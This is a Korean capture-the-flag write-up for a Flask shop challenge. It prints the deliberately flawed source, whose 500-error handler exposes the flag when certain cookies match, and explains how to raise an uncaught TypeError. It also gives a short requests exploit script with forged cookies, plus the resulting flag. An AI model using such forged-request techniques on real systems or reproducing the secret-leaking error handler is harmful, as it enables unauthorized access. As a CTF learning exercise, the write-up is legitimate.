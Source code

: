 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-05-18-20-37-42.png)


# **Write-Up**

해당 url로 접속하면 flask를 사용한 python 소스코드를 확인할 수 있다.

```py
from flask import Flask, render_template, request, make_response
import os

flag = open("flag.txt", "r").read()
app = Flask('app')

items = {"bagel": 50, "toasted_bagel": 70, "bread": 30, "toast": 50, "wheat": 20, "water": 10}

@app.route('/')
def index():
  resp = make_response(render_template('index.html'))
  resp.set_cookie('item', 'gone', max_age=0)
  resp.set_cookie('money', 'gone', max_age=0)
  return resp

@app.route('/shop')
def shop():
  buy = request.args.get("buy")
  money = request.args.get("money")
  if(buy == None and money == None):
    return render_template("shop.html")
  else:
    try:
      item_price = items[buy]
      try:
        if(item_price > int(money)):
          resp = make_response("You don't have enough money to buy this item!")
          if(buy):
            resp.set_cookie('item', buy, max_age = 10)
          if(money):
            resp.set_cookie('money', money, max_age= 10)
          return resp
        else:
          resp = make_response(f"Congratulations! You are now the owner of {buy}. You have {int(money) - item_price} fake coins left, which means absolutely nothing!")
          if(buy):
            resp.set_cookie('item', buy)
          if(money):
            resp.set_cookie('money', money)
          return resp
      except ValueError:
        return "Please enter a valid money amount!"
    except KeyError:
      return "Not a valid item! Please enter a valid item."

@app.errorhandler(404)
def not_found(e):
  return render_template('404.html', message="Page not found"), 404

@app.errorhandler(500)
def error(e):
  if(request.cookies.get('item') == request.cookies.get('money') and request.cookies.get('add') == "1"):
    return render_template('500.html', message="Internal Server Error", flag=flag), 500
  else:
    return render_template('500.html', message="Internal Server Error.", flag=os.getenv("FLAG")), 500
  
app.run(host='0.0.0.0', port=8080)
```

flag를 획득하려면 @app.errorhandler(500)에 들어가야 한다. 즉, 500에러를 발생시켜야하고, 동시에 'item'과 'money'은 같아야 하고, 'add'에 "1"이 쿠키로 저장되어야 한다. (위에서 flag.txt를 읽었는데 환경변수로 읽는 "FLAG"는 가짜로 추정)

먼저 데이터 전송 method는 GET으로 해야한다는 것을 다음 코드로 알 수 있다.

```py
buy = request.args.get("buy")
money = request.args.get("money")
```

buy의 값과 money의 값 중 적어도 1개는 None이 되면 안되는 것을 다음 코드로 알 수 있다. (key point)

```py
if(buy == None and money == None):
    return render_template("shop.html")
```

buy의 값은 정상적인 값이여야 한다는 것을 다음 코드로 알 수 있다.

```py
item_price = items[buy]
...
except KeyError:
      return "Not a valid item! Please enter a valid item."
3개의 정보를 조합하면 money 값을 넣지 않으면(=None) ValueError가 아닌 TypeError exception이 다음 코드에서 터진다.

if(item_price > int(money)):
...
except ValueError:
      return "Please enter a valid money amount!"
```

다음과 같은 python 코드로 flag를 획득할 수 있다.

```py
import requests

_params = {
    'buy' : 'water'
}
_cookies = {
    'item' : '1',
    'money' : '1',
    'add' : '1'
}

url = 'https://imaginary-shop.max49.repl.co/shop'
response = requests.get(url, params=_params, cookies=_cookies)
print(response.text)

[Output]
<html>
  <head>
    <link rel="icon" href="https://i.imgur.com/wQxv5zm.png" type="image/gif" sizes="16x16">
    <title>500 | Internal Server Error</title>
  </head>
  <body>
    <script>
      window.onload = function() {
          document.getElementById("flag").style.visibility = "hidden";
    <h1 id="message">Internal Server Error</h1>
    <p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
    <div style="position: fixed; bottom: 0; right: 0; border: 0; padding: 20px;">
      <p id="flag" style="display: block;">btw the flag is ictf{1nt3nt10nal_f1ask_pyth0n_3rr0rs?}</p>
    </div>
  </body>
</html>
```


# **FLAG**

**ictf{1nt3nt10nal_f1ask_pyth0n_3rr0rs?}**
